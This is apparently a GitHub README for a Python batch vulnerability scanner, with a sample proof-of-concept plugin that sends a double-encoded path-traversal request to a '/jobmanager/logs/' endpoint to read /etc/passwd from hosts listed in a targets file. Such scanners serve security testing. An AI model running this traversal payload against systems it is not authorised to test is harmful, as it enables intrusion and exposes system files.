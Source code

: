 # simple_poc_auto_scanner
A simple python script: automatically import poc scripts for batch scanning of vulnerable hosts  
All you have to do is add your poc script to the plugins folder  
Your poc script should contain the following key functions, the sample format is as follows, to be called by the main scanning script:  
```
def check_vuln(ip,port):
	http_proto = http_proto_judge(ip,port)#获取协议头
	url = "{proto}{ip}:{port}/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd".format(proto=http_proto,ip=ip,port=port)
	try:
		res = requests.get(url=url,headers=headers,timeout=5)
		if "root:x:0:0:" and "daemon:x:1:1:daemon" in res.text:#判断是否存在passwd文件内容
			#print("Vuln exists")
			return True
		else:
			#print("No vuln")
			return False
	except Exception as msg:
		#print(msg)
		return False
```

Add the targets you need to detect to targets.txt:
```
ip1:port1
ip2:port2
......
```

Run `python poc.py`,You can view the output vulnerable host information in the res.txt file
